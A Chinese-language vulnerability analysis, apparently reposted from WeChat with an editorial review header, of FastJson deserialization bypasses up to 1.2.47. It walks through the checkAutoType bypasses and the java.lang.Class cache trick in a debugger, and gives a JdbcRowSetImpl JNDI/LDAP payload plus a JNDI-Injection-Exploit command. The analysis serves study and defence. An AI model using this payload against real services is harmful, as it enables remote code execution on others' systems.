## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Focus1.2.47/patch1.2.48; prior41–43 bypass; AutoType false cache path; JDK unspecified

代码与实验材料：Detailed nested-a/b parser/MiscCodec/cache flow; Java payload has invalid backslash-brace escapes; JNDI tool path mismatch unverified

来源证据范围：Original WeChat, no official immutable patch/tool URL

- **事实待核（1）**：Version frontmatter is Java package statement and pasted Java string invalid。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：Old bypass preconditions AutoType/JDK not fully stated; ConcurrentMap does not itself imply one connection needs2 fields。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FastJson小于等于1.2.47RCE 细枝末节详细分析

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qRbfZK0UX4v2YwdfWDlSeA)


  

01

前言

上篇文章学习了 FastJson 的第一版漏洞，曝出后官方立马做了更新，增加了 checkAutoType() 函数，并默认关闭 autotype，在这之后一段时间内的绕过都与它有关。本文主要关于 FastJson<=1.2.47 的相关漏洞。

  

02

1.2.41-1.2.43 的缠绵不休

这三个版本的修复可以说是非常偷懒了，所以才会连续因为一个原因曝出多个问题。

```
if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}

if (className.startsWith("L") && className.endsWith(";")) {
    String newClassName = className.substring(1, className.length() - 1);
    return loadClass(newClassName, classLoader);
}

```

从 1.2.41 说起。在 checkAutotype() 函数中，会先检查传入的 @type 的值是否是在黑名单里，如果要反序列化的类不在黑名单中，那么才会对其进行反序列化。问题来了，在反序列化前，会经过 loadClass() 函数进行处理，其中一个处理方法是：在加载类的时候会去掉 className 前后的 L 和;。所以，如果我们传入 Lcom.sun.rowset.JdbcRowSetImpl;，在经过黑白名单后，在加载类时会去掉前后的 L 和;，就变成了 com.sun.rowset.JdbcRowSetImpl，反序列化了恶意类。

更新了 1.2.42，方法是先判断反序列化目标类的类名前后是不是 L 和;，如果是，那么先去掉 L 和;，再进行黑白名单校验（偷懒 qaq）。关于 1.2.42 绕过非常简单，只需要双写 L 和;，就可以在第一步去掉 L 和; 后，与 1.2.41 相同。

更新也非常随意，在 1.2.43 中，黑白名单判断前，又增加了一个是否以 LL 开头的判断，如果以 LL 开头，那么就直接抛异常，非常随意解决了双写的问题。但是除了 L 和;，FastJson 在加载类的时候，不只对 L 和; 这样的类进行特殊处理，[也对特殊处理了，所以，同样的方式在前面添加 [绕过了 1.2.43 及之前的补丁。

在 1.2.44 中，黑客们烦不烦，来了个狠的：只要你以 [开头或者; 结尾，我直接抛一个异常。如此，终于解决了缠绵多个版本的漏洞。

  

03

<=1.2.47 的双键调用分析

### **漏洞原理**

FastJson 有一个全局缓存机制：在解析 json 数据前会先加载相关配置，调用 addBaseClassMappings() 和 loadClass() 函数将一些基础类和第三方库存放到 mappings 中（mappings 是 ConcurrentMap 类，所以我们在一次连接中传入两个键值 a 和 b，具体内容见下文）。  
之后在解析时，如果没有开启 autotype，会从 mappings 或 deserializers.findClass() 函数中获取反序列化的对应类，如果有，则直接返回绕过了黑名单。  
本次要利用的是 java.lang.Class 类，其反序列化处理类 MiscCodec 类可以将任意类加载到 mappings 中，实现了目标。

### **环境搭建**

环境：IDEA + JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

新建 maven 项目后添加 1.2.47 版本的 fastjson，并创建 fastjson1_2_47.java 文件

```
package person;
import com.alibaba.fastjson.JSON;
public class fastjson1_2_47 {
    public static void main(String[] argv){
        testJdbcRowSetImpl();
    }
    public static void testJdbcRowSetImpl(){
        String payload = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":true\}\\}\}";
        JSON.parse(payload);
    }

}

```

使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 搭建 ldap 服务

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1

```

运行代码，触发 poc



### **动态分析**

首先在 JSON.parse(payload); 下断点后调试



之后单步步入，过程类似于上篇文章中的调用过程，我们直到 DefaultJSONParser.java 的 parseObject() 函数



下面就进入一个 for 循环获取并处理我们的 payload，我们跟进到如图所示位置，从这里开始就和 1.2.24 的调用不同了。可以看到我们获取了第一段 key 为 a，由于不是 @type 属性，我们会跳过这个 if（里面有 checkAutoType() 和 deserializer.deserialze()，我们一会就会回来），继续跟进



我们跟进到这里，开始处理 a 内 {里面的内容



接下来调用 this.parseObject()，正式进入嵌套，获取处理 key 为 a 的内部内容，单步步入后，我们发现又进入了上面进入过的 for 循环，并且获取的 key 为 @type，进入上面说的 if 段





调用了 checkAutoType() 来检查目标类是否符合要求，这里我们不跟进去看了，在分析 b 段的时候再跟进去。这里我们只要知道，我们利用的 java.lang.Class 是可以通过校验的就可以了，所以我们单步步过



通过 checkAutoType() 后获取到 clazz 为 java.lang.Class，之后调用了对应的序列化处理类 com.alibaba.fastjson.serializer.MiscCodec()，这里就是核心，我们单步步入



可以看到我们进入到 MiscCodec.java 的 deserialze() 中，首先调用 parser.parse() 从 payload 中获取 val 对应的键值，也就是 JdbcRowSetImpl 类，并赋值给 strVal，我们继续跟进



接下来有一堆 if 判断，会对我们要反序列化的类进行一个类型的判断，直到如图位置，我们进入 TypeUtils.loadClass() 函数，这里默认 cache 为 true



在 TypeUtils.loadClass() 中，cache 为 true 时，将键值对应的类名放到 mappings 中



（到目前为止我们已经成功将恶意类 com.sun.rowset.JdbcRowSetImpl 加载到 mappings 中，接下来我们继续跟进解析传入的第二个键值 b 的内容，实现恶意类的 jdni 注入利用）

在完成 loadClass() 后会向上层返回，如图，继续跟进后回到 for 循环正式开始解析键值 b 的内容，获取到 bkey 为 b 后，类似于 a 那里，会跳过这个 if 段，在下面再次调用 parseObject() 来处理 b 内部内容，我们直接跟进下面的 parseObject()







在 parseObject() 中继续跟进到入 checkAutoType()，这次我们进入 checkAutoType() 看一下



在 checkAutoType 内部，没有开启 autotype，直接从 mappings 中获取，然后返回，一气呵成，黑白名单完全没用



接下来会调用 deserializer.deserialze() 和 1.2.24 一样，造成 rce

